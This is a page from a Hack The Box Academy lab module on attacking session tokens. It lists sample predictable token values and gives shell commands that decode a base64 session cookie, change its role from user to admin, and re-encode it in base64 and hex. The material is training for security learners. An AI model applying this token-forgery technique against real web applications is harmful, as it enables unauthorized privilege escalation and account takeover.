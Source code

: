 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/80/section/782
// Platform Version: V1
// Module ID: 80
// Module Name: Broken Authentication
// Module Difficulty: Medium
// Section ID: 782
// Section Title: Attacking Session Tokens
// Page Title: Hack The Box - Academy
// Page Number: 12
-->

# Attacking Session Tokens

**Module Name:** Broken Authentication **Page Number:** 12

#### 

#### BROKEN AUTHENTICATION

# Attacking Session Tokens

## Brute-Force Attack

![https://academy.hackthebox.com/storage/modules/269/session/session_1.png](https://academy.hackthebox.com/storage/modules/269/session/session_1.png)

![https://academy.hackthebox.com/storage/modules/269/session/session_2.png](https://academy.hackthebox.com/storage/modules/269/session/session_2.png)

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

```
141233
141234
141237
141238
141240
```

## Attacking Predictable Session Tokens

![https://academy.hackthebox.com/storage/modules/269/session/session_3.png](https://academy.hackthebox.com/storage/modules/269/session/session_3.png)

``` shell-session
ndefstathiou@htb[/htb]$ echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d

user=htb-stdnt;role=user
```

``` shell-session
ndefstathiou@htb[/htb]$ echo -n 'user=htb-stdnt;role=admin' | base64

dXNlcj1odGItc3RkbnQ7cm9sZT1hZG1pbg==
```

![https://academy.hackthebox.com/storage/modules/269/session/session_4.png](https://academy.hackthebox.com/storage/modules/269/session/session_4.png)

![https://academy.hackthebox.com/storage/modules/269/session/session_5.png](https://academy.hackthebox.com/storage/modules/269/session/session_5.png)

``` shell-session
ndefstathiou@htb[/htb]$ echo -n 'user=htb-stdnt;role=admin' | xxd -p

757365723d6874622d7374646e743b726f6c653d61646d696e
```

# 

# 

#### Questions

####